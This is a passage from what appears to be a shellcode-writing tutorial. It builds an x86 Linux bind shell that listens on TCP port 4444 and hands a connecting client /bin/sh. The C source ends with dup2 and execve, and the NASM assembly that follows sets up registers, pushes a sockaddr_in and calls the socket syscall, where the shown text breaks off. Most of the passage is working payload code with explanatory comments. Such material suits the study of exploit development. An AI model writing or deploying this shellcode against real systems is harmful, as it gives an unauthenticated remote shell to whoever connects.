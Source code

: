 ```c
    for (int i = 0; i < 3; i++)
    {
        dup2(connfd, i);
    }

    // Execute /bin/sh
    execve("/bin/sh", NULL, NULL);
}
```

Now, let's get to work.
=

### 1.3) The assembly code

1.3.1) The first step is to initialize the stack and the registers:
```nasm
;This part initialize the registers and the stack
mov ebp, esp                ;Initialize the stack frame

xor eax, eax                ;Initialize eax to NULL
xor ebx, ebx                ;Initialize ebx to NULL
xor ecx, ecx                ;Initialize ecx to NULL
xor edx, edx                ;Initialize edx to NULL
```

1.3.2) The second step is to push the "sockaddr_in" structure on the stack:
```nasm
;This part push the structure "sockaddr_in" on the stack
;C code representation:
;   struct sockaddr_in addr;
;   addr.sin_family = AF_INET;
;   addr.sin_port = htons(4444);
;   addr.sin_addr.s_addr = INADDR_ANY;

push eax
push eax                    ;Fill the end of the structure with 2 NULL Bytes
push eax                    ;Initialize the variable "addr.sin_addr.s_addr" to listen for all incoming connection (INADDR_ANY) 
push word 0x5c11            ;Initialize the variable "addr.sin_port" to listen on port 4444
push word 0x02              ;Initialize the variable "addr.sin_family" to IPV4 (AF_INET)
```

1.3.3) We can now call the "socket" systemcall which will create an endpoint for communication:
```nasm
;This part initialize and call the "socket" systemcall
mov ax, 0x167               ;Move the "socket" systemcall number inside ax
mov bl, 0x02                ;Move the "AF_INET" value (which means IPV4) inside bl
mov cl, 0x01                ;Move the "SOCK_STREAM" value (which means TCP) inside cl

;C code representation of the systemcall:
; --> int sockfd = socket(AF_INET, SOCK_STREAM, 0);
int 0x80                    ;Execute the systemcall
mov edi, eax                ;Move the return value from the "socket" systemcall into edi
```
